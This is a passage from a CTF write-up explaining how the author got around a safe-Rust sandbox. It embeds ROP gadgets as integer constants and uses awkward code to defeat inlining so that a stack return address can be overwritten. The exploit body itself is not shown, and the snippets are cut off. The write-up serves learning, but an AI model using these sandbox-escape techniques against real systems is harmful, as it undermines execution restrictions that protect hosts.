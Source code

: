 ```rust
```
This will compile to, more or less, `mov rax, <gadget>;`, and since instructions are stored in RX pages, we can call the gadgets. Directly referencing an offset from the function name wasn't working[^4], so to find the gadgets, I loop and search through the code section using `read`. After the CTF, the author hinted that the following also works, with no searching:
```rust
pub fn gadget1() -> u64 { 0xc300001337c0c748 }
let gadget1_addr = (gadget1 as *const u64) as usize;
```
Knowing these, I should be able to overwrite the return address of `$crate::main` (i.e. the "real" one, not the top-level one that Rust binaries have), right? Well, I would **if it had one**. For reasons I will explain in the next section, it would stubbornly end with a `ud2` instruction, which causes `SIGILL`. At that point, I (incorrectly) assumed that Rust does something like `exit()` at the end of `$crate::main` instead of using `ret`, implying I had to create an inner, legit stack frame with a `ret` in the epilogue.

This required more work than simply defining a separate `fn`. You see, my code was compiled using `cargo build --release`, which translates to `rustc -C opt-level=3`. The Rust compiler inlines functions **aggressively**. Forcing it not to do that without using `#[inline(never)]` (remember, no `#`s) involves some of possibly the jankiest Rust you will ever see:
```rust
fn main() {
    let addr: usize = main as *const _ as usize;

    // noinline_fn is called several times,
    // so that inlining it would quadruple
    // the code size in this part. Because
    // noinline_fn is already large, rustc/LLVM
    // decides not to inline it.
    noinline_fn(addr);

    // The entire exploit is done by the time
    // noinline_fn returns, so these will never
    // be called.
    noinline_fn(addr);
    noinline_fn(addr);
    noinline_fn(addr);
}

const MSB_MASK: usize = 0xff00000000000000;

/// Not inlined!
pub fn noinline_fn(addr: usize) {
    /* Do the actual exploit here. */

    // This is an opaque predicate, always true
    // for userspace addresses on x64, but rustc
    // doesn't know that, so the code after is
    // not eliminated as dead.
    if addr & MSB_MASK == 0 {
        return;
    }

    println!("zest");
    // Slight spelling changes to prevent the print statements
    // from folding into a loop, which would reduce the code size.
    // Only some are changed, I was in a hurry :/
    println!("test");
    println!("test");
    println!("test");
    println!("test");
    println!("test");
    println!("test");
    println!("test");
```

[^1]: Actually the check for `"unsafe"` strings, present in the source, wasn't working on remote, but there is also a `#![forbid(unsafe_code)]` compiler directive in the template, so I couldn't use `unsafe`.
[^2]: After the CTF, it turned out that the intended solution was to use [#57893](https://github.com/rust-lang/rust/issues/57893). The flag lists [#31287](https://github.com/rust-lang/rust/issues/31287), but that's a typo - as I mentioned, it's been fixed by NLL.
[^3]: Up from 36th last year. By induction, in 2020 we'll be (-4)th.
[^4]: Turns out, `&main as *const _` and `main as *const u64` are not the same.